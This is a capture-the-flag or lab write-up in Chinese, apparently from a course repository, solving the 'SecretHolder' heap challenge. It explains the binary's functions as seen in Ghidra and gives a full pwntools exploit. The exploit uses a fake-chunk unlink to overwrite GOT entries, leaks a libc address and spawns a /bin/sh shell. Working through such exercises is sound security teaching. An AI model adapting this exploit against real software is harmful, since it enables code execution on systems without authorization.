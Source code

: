 # SecretHolder

[執行程式]

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_topic.jpg)

[解題]

首先可以透過執行程式看到其提供以下幾種功能:
* keep secret:有三種不同大小的空間，並依對應的大小輸入秘密到該空間。
* wipe secret:可以自行選擇要free掉哪種大小的空間。
* renew secret:重新創建某個大小的空間。

接下來可以用 ghidra 進行分析，其中看到比較有東西的程式畫面如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_code.jpg)

在 keep secret 的函數中使用 calloc() 為三種 secret 分配不同大小的 chunk (small chunk、big chunk、huge chunk)，在分配前會檢查相對應的 secret 是否已經存在，因為每種 chunk 只能有一個。而在 wipe secret 函數在釋放 secret 時，首先將對應的 chunk 釋放掉，然後設置 flag 為 0。最後，renew secret 函數會先判斷對應的 flag 是否為 1，表示 secret 是否已經存在，如果不存在則讀入 secret，否則函數直接返回。

#### exploit.py
```
from pwn import *
from LibcSearcher import *

sh = process('./SecretHolder')
elf = ELF('./SecretHolder')

# The address of huge_secret
huge_secret = 0x6020A8
bss_addr = 0x602090
free_got = elf.got['free']
puts_plt = elf.plt['puts']
read_got = elf.got['read']

def new(h_type, content):
   sh.sendlineafter('3. Renew secret', '1')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendlineafter('Tell me your secret:', content)

def delete(h_type):
   sh.sendlineafter('3. Renew secret', '2')
   sh.sendlineafter('3. Huge secret', str(h_type))

def edit(h_type, content):
   sh.sendlineafter('3. Renew secret', '3')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendafter('Tell me your secret:', content)

# apply one big chunk
new(3,'a'*0x100)
delete(3)

# apply one small chunk
new(1,'b'*0x10)

#apply one medium chunk
new(2,'c'*0x100)

# free chunk0 and chunk1
delete(1)
delete(2)

# create fake chunk
fake_chunk = p64(0) + p64(0x21)
#fd,bk
fake_chunk += p64(huge_secret-0x18) + p64(huge_secret-0x10)
payload = fake_chunk.ljust(0x20,'\x00')
#prev_size size
payload += p64(0x20) + p64(0x90) + 'c'*0x80   #chunk2
#prev_size size
payload += p64(0x90) + p64(0x81) + 'd'*0x70   #chunk3
#prev_size size
payload += p64(0) + p64(0x81)   #chunk4
# reapply big chunk
new(3, payload)

# unlink this 3 big bin
delete(2)
# Now, we can control this three heap pointer, modify them first
payload += p64(0) * 2 + p64(free_got) + p64(bss_addr) + p64(read_got) +p32(1)*3
edit(3,payload)

# modify free's got to put's plt
edit(2,p64(puts_plt))
#leakage the address of read
delete(1)
sh.recvuntil('\n')
read_addr = u64(sh.recvuntil('\n',drop = True).ljust(8,'\x00'))
libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
print ('libc_base=',hex(read_addr))
print ('system_addr=',hex(system_addr))
#modify table got of free and point to system
edit(2,p64(system_addr))
#modify heap1 pointer and point to str(/bin/sh)
edit(3,p64(0) * 2 + p64(binsh_addr))
#system("/bin/sh")
delete(2)

sh.interactive()
```

